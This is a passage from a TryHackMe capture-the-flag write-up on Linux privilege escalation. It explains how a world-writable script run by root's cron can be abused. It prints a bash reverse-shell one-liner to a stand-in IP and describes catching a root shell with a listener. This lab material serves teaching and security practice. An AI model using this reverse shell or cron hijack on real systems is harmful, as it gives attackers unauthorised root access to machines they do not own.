 Initially, when we changed the name of the library file that we created we got an error saying that some function was not found but after adding the function that was required by the library file we were able to get a root shell.

1. **Read and follow along with the above.**

> No answer required

## Task 8: Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run jobs at different times automatically. The Cron table (crontab) stores the list of all the cron jobs. The system-wide crontab is located at /etc/crontab.

![Listing Cron Jobs](images/thm-linux-privesc/cron-jobs.png)

By looking at the tasks we can see that two scripts are scheduled to run every minute. Another thing that we observe is that both tasks are scheduled by the "root" user so if we can modify the script the new code will also run with root privileges.

Looking at the permissions on the script file we see that it is writable by anyone. Change the content of the file with the following:

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**Note:** Replace the IP Address in the script with the TryHackMe VPN IP Address which can be found by running "ip a show tun0" on your Kali machine and looking under Inet.

Then we can set up a listener on your Kali Machine which should give us a root shell (should take less than a minute to get a connection)
